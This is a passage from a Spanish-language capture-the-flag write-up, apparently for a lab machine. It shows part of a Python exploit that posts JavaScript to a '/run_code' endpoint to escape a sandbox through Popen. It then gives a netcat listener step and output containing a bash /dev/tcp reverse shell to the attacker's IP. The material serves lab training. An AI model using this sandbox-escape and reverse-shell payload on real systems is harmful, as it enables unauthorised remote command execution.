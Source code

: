 ```python
            if (result) {{
                return result;
            }}
        }}
    }}
    return null;
}}

var popen_class = findpopen(obj);
if (popen_class) {{
    var result = popen_class(cmd, -1, null, -1, -1, -1, null, null, true).communicate();
    result;
}} else {{
    "No se encontró Popen";
}}
"""

# Preparar y enviar la solicitud
url = f'{TARGET_URL}/run_code'
payload = {"code": js_code}
headers = {"Content-Type": "application/json"}

print(f"[+] Enviando payload a {TARGET_URL}")
print(f"[+] Reverse shell hacia {ATTACKER_IP}:{ATTACKER_PORT}")
print(f"[+] Comando: {reverse_shell_cmd}")

try:
    r = requests.post(url, data=json.dumps(payload), headers=headers, timeout=10)
    print(f"[+] Respuesta del servidor: {r.status_code}")
    print(f"[+] Contenido: {r.text}")
except requests.exceptions.RequestException as e:
    print(f"[-] Error de conexión: {e}")
except Exception as e:
    print(f"[-] Error inesperado: {e}")
```

Vamos a ponernos a la escucha antes de ejecutarlo:

```shell
nc -lvnp <PORT>
```

Ahora vamos a ejecutarlo de esta forma:

```shell
python3 exploit.py
```

Info:

```
[+] Enviando payload a http://10.10.11.82:8000
[+] Reverse shell hacia 10.10.14.85:7755
[+] Comando: bash -i >& /dev/tcp/10.10.14.85/7755 0>&1
[-] Error de conexión: HTTPConnectionPool(host='10.10.11.82', port=8000): Read timed out. (read timeout=10)
```
